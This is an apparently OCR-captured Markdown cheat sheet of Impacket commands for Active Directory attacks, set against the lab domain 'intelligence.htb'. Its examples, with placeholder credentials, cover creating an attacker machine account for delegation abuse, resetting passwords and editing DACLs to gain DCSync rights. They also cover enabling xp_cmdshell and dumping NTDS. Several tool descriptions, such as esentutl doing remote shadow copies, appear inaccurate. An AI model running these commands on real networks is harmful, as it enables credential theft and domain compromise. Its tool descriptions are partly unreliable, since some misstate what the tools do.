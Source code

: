 ## 🧩 AD Object Abuse & ACLs

**impacket-addcomputer**  
_What_: Add a machine account (ms-DS-MachineAccountQuota).  
_When_: Default MAQ=10; create ATTACKER$ for RBCD.  
_Example_: `impacket-addcomputer -computer-name ATTACKER$ -computer-pass Passw0rd intelligence.htb/USER:P@ss`

**impacket-changepasswd**  
_What_: Change a user’s password over SAMR/LDAP.  
_When_: You have rights or hash.  
_Example_: `impacket-changepasswd intelligence.htb/USER:P@ss -newpass NewP@ss!`

**impacket-owneredit / impacket-dacledit**  
_What_: Take ownership / edit DACLs on objects.  
_When_: Grant yourself rights (RBCD, DCSync).  
_Example_: `impacket-owneredit -action write -principal USER -target 'CN=...,DC=...' intelligence.htb/USER:P@ss`

**impacket-rbcd**  
_See_: Kerberos section.

**impacket-findDelegation**  
_See_: Kerberos section.

---

## 💾 Database & Apps

**impacket-mssqlclient / impacket-mssqlinstance**  
_What_: SQL Server client & instance discovery.  
_When_: Query MSSQL, enable xp_cmdshell, link servers.  
_Example_: `impacket-mssqlclient intelligence.htb/USER:P@ss@sqlhost -windows-auth`

**impacket-exchanger**  
_What_: Interact with Exchange (EWS/Autodiscover).  
_When_: Exchange abuse/enumeration.  
_Example_: `impacket-exchanger -action enum -target mail.intelligence.htb intelligence.htb/USER:P@ss`

**impacket-mqtt_check**  
_What_: MQTT broker checks.  
_When_: IoT/broker recon on Windows deployments.  
_Example_: `impacket-mqtt_check 10.10.10.50:1883`

---

## 🧪 Misc & Forensics

**impacket-esentutl**  
_What_: Shadow copy & copy files (like NTDS) remotely via WMI/VSS.  
_When_: Dump NTDS without Mimikatz, then secretsdump offline.  
_Example_: `impacket-esentutl intelligence.htb/ADMIN:P@ss@10.10.10.248 ntds`
